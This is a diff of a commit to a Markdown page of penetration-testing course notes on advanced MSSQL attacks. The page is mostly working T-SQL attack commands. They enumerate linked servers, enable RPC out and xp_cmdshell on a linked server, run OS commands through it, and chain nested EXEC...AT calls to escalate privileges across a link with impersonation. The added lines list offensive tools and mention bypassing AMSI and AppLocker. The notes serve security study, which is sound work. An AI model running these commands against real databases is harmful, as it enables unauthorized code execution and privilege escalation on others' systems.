

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: MSSQL Advanced Attacks.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/MSSQL Advanced Attacks.md
+++ b/MSSQL Advanced Attacks.md
@@ -245,9 +245,9 @@ SELECT * FROM sys.servers;
 Test query on the linked MSSQL server using the "OPENQUERY" statement. Unluckily, the "OPENQUERY" statement doesn't support executing stored procedures:
 
 ```
-select version from openquery("dc01", 'select @@version as version');   -> DC01 is the linked server
+select version from openquery("DC01", 'select @@version as version');   -> DC01 is the linked server
 
-select version from openquery("dc01", 'select system_user');
+select version from openquery("DC01", 'select system_user');
 ```
 
 For this example, assume that DC01 is the linked server. When executing "RECONFIGURE" statements on a remote server, the created link must be configured with [outbound RPC](https://learn.microsoft.com/en-us/previous-versions/sql/sql-server-2008-r2/ms186839(v=sql.105)?redirectedfrom=MSDN). If "RPC out" is not enabled, we can enable it using the ["SP_SERVEROPTION"](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-serveroption-transact-sql?view=sql-server-ver15) statement:
@@ -255,28 +255,44 @@ For this example, assume that DC01 is the linked server. When executing "RECONFI
 ```
 1. EXEC sp_serveroption 'LOCALHOST\instance', 'rpc', true;
 
+#From an sqlcmd(example)
+EXEC sp_serveroption 'DC01', 'rpc', true;
+GO
+
 2. EXEC sp_serveroption 'LOCALHOST\instance', 'rpc out', true;
+
+#From impacket-mssqlclient(example)
+EXEC sp_serveroption 'DC01', 'rpc out', true;
 ```
 
 ```
-1st EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT dc01
+1st EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT DC01
 
-2nd EXEC (sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AT dc01
+2nd EXEC (sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AT DC01
 
-3rd EXEC (xp_cmdshell 'whoami';) AT dc01
+3rd EXEC (xp_cmdshell 'whoami';) AT DC01
 ```
+
+Obiously, to be able to get code execution in the linked MSSQL server we must have the sysadmin role, which it is controlled by the "Security context" or from our SQL login.
 
 **PRIVILEGE ESCALATION THROUGHA LINKED MSSQLSERVER:**
 
-Supose that we have low privileges on our current MSSQL server, however there is a linked MSSQL server where we do have high privileges. So how do we do to gain high privileges on our first MSSQL server?
-(For demonstration purposes we have low privileges on dc01 but high privileges on appsrv01)
+Supose that we have low privileges on our current MSSQL server(APPSRV01), however there is a linked MSSQL server(DC01) which have a link to APPSRV01 configured with impersonation(the link of DC01 to APPSRV01).
 
 Here are the commands we must throw through dc01:
 
 ```
-1st EXEC ('EXEC (sp_configure "show advanced options", 1; reconfigure;  ) AT appsrv01') AT dc01
+1st EXEC ('EXEC (sp_configure "show advanced options", 1; reconfigure;) AT appsrv01') AT dc01
 
 2nd EXEC ('EXEC (sp_configure "xp_cmdshell", 1; reconfigure;) AT appsrv01') AT dc01
 
 3rd EXEC ('EXEC (xp_cmdshell "whoami";) AT appsrv01') AT dc01
 ```
+
+**USEFUL SCRIPTS:**
+
+[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/tree/master), is written in PowerShell, could be useful after bypassing AMSI and disabling signatures.
+
+[DAFT](https://github.com/NetSPI/DAFT/tree/master) it is like an "enhanced" sqlcmd. It is an EXE. It is a C# implementation of PowerUpSQL.
+
+[ESC](https://github.com/NetSPI/ESC) it is like DAFT, but it has designed to work with msbuild which could help for bypassing AppLocker. It can also be invoked using PowerShell Reflection.
````
